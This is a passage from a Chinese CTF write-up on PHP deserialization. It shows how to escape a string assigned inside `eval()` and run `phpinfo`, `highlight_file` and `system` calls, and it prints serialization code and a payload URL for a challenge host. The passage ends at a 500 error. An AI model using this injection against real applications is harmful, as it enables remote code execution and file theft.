 
当然，由于上述正则表达式中并没有出现定界符`^`、`$`，因此只要**子串**可以匹配即可。意味着我们可以构造符合`/.*\w+\(\).*/` 模式的字符串
![](https://img-blog.csdnimg.cn/20190915130650662.png)

2、再看`eval('$a="'.$this->cmd.'";');`这条语句，需要以下基础知识，可自行百度
> PHP每条语句后都需要加分号？？？
> PHP中单引号和双引号的区别
> PHP字符串如何拼接

最终传入`eval`的参数是如下模式：
![final-reg](https://img-blog.csdnimg.cn/20190915132043895.png)
我们需要构造`$cmd`，读出`flag.php`中的内容，我构造的`$cmd`如下：

```
1";phpinfo();highlight_file("flag.php");system("whoami");"
```

解释：
+ `1";`使得赋值语句结束，即`$a="1";` 
+ `phpinfo();`在匹配了正则的同时，又可以看下后台所用PHP版本等信息，这一部分亦可用 `time()`等可以不带参数的系统函数。由于这一步已经通过了正则的验证，理论上后续就可以构造任意语句执行……
+ `highlight_file("flag.php");` 用于显示本题flag
+ `system("whoami");` 可选，查看是不是可以任意执行shell

3、初始化`class flag`对象，更改成员变量`$cmd`的值，对其进行序列化。

```php
 <?php
// 照抄一份flag类的定义
class flag
{
    public $cmd='index.php';

    public function __destruct(){
        if (preg_match('/\w+\((?R)?\)/', $this->cmd)){
            eval('$a="'.$this->cmd.'";');
        }
        else {
            die('hack!!!');
        }
    }
}
$class = new flag();
$class->cmd = '1";phpinfo();highlight_file("flag.php");system("whoami");"';
$class_ser = serialize($class);
print_r($class_ser);
```

对象序列化后为字符串：

```
O:4:"flag":1:{s:3:"cmd";s:55:"1";time();highlight_file("flag.php");system("whoami");"";}
```
得到payload：

```
http://39.105.168.42:8001/?fl=a(&ag=O:4:"flag":1:{s:3:"cmd";s:55:"1";time();highlight_file("flag.php");system("whoami");"";}
```
发现不对劲？
![500Error](https://img-blog.csdnimg.cn/20190915133609328.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2lsb3ZlaXR2bQ==,size_16,color_FFFFFF,t_70)
